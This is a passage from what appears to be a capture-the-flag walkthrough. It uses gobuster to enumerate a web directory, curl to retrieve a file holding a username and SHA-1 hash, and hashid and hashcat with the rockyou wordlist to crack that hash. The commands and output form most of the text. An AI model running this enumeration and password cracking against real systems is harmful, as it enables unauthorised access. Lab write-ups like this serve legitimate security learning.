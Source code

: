 Check if we can find any text files in `/secret` directory.
{% capture code %}{% raw %}gobuster dir -u "http://<ip>/secret" -x txt -w /usr/share/dirb/wordlists/common.txt --random-agent --no-error{% endraw %}{% endcapture %} {% include code.html code=code %}
An output similar will be obtained.
{% capture code %}{% raw %}===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<ip>/secret
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (Windows NT 6.1; rv:2.0b11pre) Gecko/20110126 Firefox/4.0b11pre
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2020/12/24 05:04:39 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 0]
/secret.txt           (Status: 200) [Size: 46]

===============================================================
2020/12/24 05:07:09 Finished
==============================================================={% endraw %}{% endcapture %} {% include code.html code=code %}

Check if we can read contents of `/secret.txt` file.
{% capture code %}{% raw %}curl http://<ip>/secret/secret.txt{% endraw %}{% endcapture %} {% include code.html code=code %}
We get a hashed password `nyan:046385855FC9580393853D8E81F240B66FE9A7B8`.

Check what kind of hash we got, using,
{% capture code %}{% raw %}hashid -m 046385855FC9580393853D8E81F240B66FE9A7B8{% endraw %}{% endcapture %} {% include code.html code=code %}
We get recommendations on what could be the type of hash.
{% capture code %}{% raw %}Analyzing '046385855FC9580393853D8E81F240B66FE9A7B8'
[+] SHA-1 [Hashcat Mode: 100]
[+] Double SHA-1 [Hashcat Mode: 4500]
[+] RIPEMD-160 [Hashcat Mode: 6000]
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn [Hashcat Mode: 190]
[+] Skein-256(160)
[+] Skein-512(160){% endraw %}{% endcapture %} {% include code.html code=code %}
This can be decrypted using either hashcat or john.
{% capture code %}{% raw %}hashcat -m100 -a0 -O --force "046385855FC9580393853D8E81F240B66FE9A7B8" /usr/share/wordlists/rockyou.txt{% endraw %}{% endcapture %} {% include code.html code=code %}
The cracked password can be seen by,
{% capture code %}{% raw %}Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

046385855fc9580393853d8e81f240b66fe9a7b8:<password>